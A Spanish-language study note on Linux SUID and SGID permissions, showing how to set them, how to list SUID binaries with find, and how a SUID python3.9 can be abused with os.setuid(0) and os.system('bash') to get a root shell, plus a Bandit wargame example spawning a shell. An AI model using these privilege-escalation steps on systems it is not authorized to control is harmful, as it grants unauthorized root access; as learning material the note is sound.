 -------
- Tags: #linux 
------

**El permiso SUID permite que un archivo se ejecute como si del propietario se tratase, independientemente del usuario que lo ejecute, el archivo se ejecutará como el propietario.**

---

- Para añadir este permiso a un archivo / directorio:

```BASH
chmod 4755
chmod u+s MyDirectory/
```

- Para descubrir estos binarios:

```BASH
find / -type f -perm -4000
# Encuéntrame desde la raíz, aquellos archivos tipo files que tengan los permisos 4000 (s).
```

- Normalmente, nos dará muchos errores. Por lo que es preferible utilizar el siguiente comando:

```BASH
find / -type f -perm -4000 2>/dev/null
# Encuéntrame desde la raíz, aquellos archivos tipo files que tengan los permisos 4000 (s). Y el outerr (errores) envíamelos al /dev/null.
```

---

Si, por ejemplo, encontramos que el archivo `python3.9` tiene permisos SUID, podremos ejecutar `python3.9` y convertirnos en el usuario `root` de manera temporal:

```BASH
python3.9
# Ejecutar `python3.9` como el propietario.

import os
# Importamos la librería os

os.setuid(0)
# Cambiamos nuestro grupo al del 0, que suele ser root.

os.system("bash")
# Nos regresa una bash
```

---
## Abusando de privilegio SUID para migrar de usuario

**SUID** es un permiso de archivo especial para archivos ejecutables que permite a otros usuarios ejecutar el archivo con los permisos efectivos del propietario del archivo. **SGID**, por el contrario, es un permiso de archivo especial que también se aplica a los archivos ejecutables y permite a otros usuarios heredar el GID efectivo del propietario del grupo de archivos.

**SUID** significa “**establecer ID de usuario**” (**Set owner User ID**) y **SGID** significa “**establecer ID de grupo**” (**Set Group ID up on execution**).

- Podemos ejecutar binarios a los cuáles pasarles parámetros:

```BASH
./binaryName command
```

- El siguiente ejemplo nos otorga una terminal en la que podemos escribir:

```BASH
./bandit-do sh
```

```BASH
./bandit-do whoami
```


---
## Referencias

- Hemos utilizado el comando [[find]].

- Para más información: [Página 1](https://deephacking.tech/permisos-sgid-suid-y-sticky-bit-linux/#:~:text=Permiso%20SGID,-El%20permiso%20SGID&text=Si%20se%20establece%20en%20un,perteneciente%2C%20el%20grupo%20del%20directorio.), [Página 2](https://www.ochobitshacenunbyte.com/2019/06/17/permisos-especiales-en-linux-sticky-bit-suid-y-sgid/) y [Página 3](https://www.ibiblio.org/pub/linux/docs/LuCaS/Manuales-LuCAS/SEGUNIX/unixsec-2.1-html/node56.html)
